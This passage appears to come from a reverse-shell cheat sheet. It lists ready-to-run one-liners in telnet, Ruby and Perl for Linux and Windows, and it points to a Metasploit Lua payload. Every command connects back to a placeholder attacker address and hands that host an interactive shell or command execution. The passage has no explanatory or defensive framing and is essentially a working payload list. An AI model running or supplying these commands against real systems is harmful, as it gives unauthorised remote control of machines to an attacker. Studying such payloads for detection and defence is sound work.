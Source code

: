 OR

```
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet <IP> <PORT> > f
rm -f x; mknod x p && telnet <IP> <PORT> 0<x | /bin/bash 1>x
```

(Listen on the port 443 machine)

## Using LUA

```
In MSF => payload/cmd/unix/reverse_lua

##OR this tool: https://github.com/cuhsat/palantir
```

## Ruby

### Linux

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<IP>",<PORT>);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'f=TCPSocket.open("<IP>",<PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Windows

```
ruby -rsocket -e "c=TCPSocket.new('<IP>',<PORT>);while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"
```

## Perl

### Windows

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Linux

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))\
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");\
open(STDERR,">&S");exec("/bin/sh -i");};'
```